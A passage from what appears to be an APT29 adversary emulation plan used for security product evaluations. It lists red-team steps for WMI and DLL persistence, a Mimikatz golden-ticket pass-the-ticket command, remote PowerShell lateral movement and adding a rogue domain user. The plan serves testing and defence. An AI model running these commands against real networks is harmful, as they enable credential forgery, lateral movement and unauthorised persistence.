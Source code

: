 #### Procedures

##### 20.A - Persistence Execution ([T1085](https://attack.mitre.org/versions/v6/techniques/T1085/) / [T1218.011](https://attack.mitre.org/techniques/T1218/011/), [T1084](https://attack.mitre.org/versions/v6/techniques/T1084/) / [T1546.003](https://attack.mitre.org/techniques/T1546/003/))

1. Execute `restart-computer -force`
2. Existing 2 callbacks should die
3. RDP and login to initial victim once it reboots
4. Persistence mechanisms should fire on login (1 for DLL, 1 or more for WMI event subscription)

**Note:** You may need to repeat login process a few times (close and reopen RDP session) for WMI execute to fire

##### 20.B - Use Alternate Authentication Material: Pass the Ticket ([T1097](https://attack.mitre.org/versions/v6/techniques/T1097/) / [T1550.001](https://attack.mitre.org/techniques/T1550/001/), [T1550.003](https://attack.mitre.org/techniques/T1550/003/))

1. Interact with the SYSTEM PS callback (from WMI)
2. Execute `klist purge`
3. Load `Invoke-Mimikatz.ps1` (available at <https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1>)
4. Execute `invoke-mimikatz -command '"kerberos::golden /domain:dmevals.local /sid:[SID] /rc4:[NTLM HASH] /user:mscott /ptt"'` using the SID and NTLM values from earlier
5. Execute `klist` and confirm ticket is in cache
6. Execute `Enter-PSSession [hostname of second workstation in domain]`
7. Execute `Invoke-Command -ComputerName [hostname of second workstation in domain] -ScriptBlock {net user /add toby "pamBeesly<3"}`

#### Cited Intelligence

* Open Invitation Contributors: Microsoft, SentinelOne

* APT29 have used Kerberos ticket attacks for lateral movement and has created accounts to log in.<sup> [5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016),[7](https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html) </sup>

---

### Acknowledgements

#### Special thanks to the following public resources

* Atomic Red Team (<https://github.com/redcanaryco/atomic-red-team>)
* Mimikatz (<https://github.com/gentilkiwi/mimikatz>)
* Pinvoke (<http://www.pinvoke.net>)
* PoshC2 (<https://github.com/nettitude/PoshC2>)
* POSHSPY (<https://github.com/matthewdunwoody/POSHSPY>)
* PowerSploit (<https://github.com/PowerShellMafia/PowerSploit>)
* PSReflect-Functions (<https://github.com/jaredcatkinson/PSReflect-Functions>)
* State of the Hack S2E01: #NoEasyBreach REVISITED (<https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html>)
* Use PowerShell to Interact with the Windows API (<https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1>)
* Yet another sdclt UAC bypass (<http://blog.sevagas.com/?Yet-another-sdclt-UAC-bypass>)
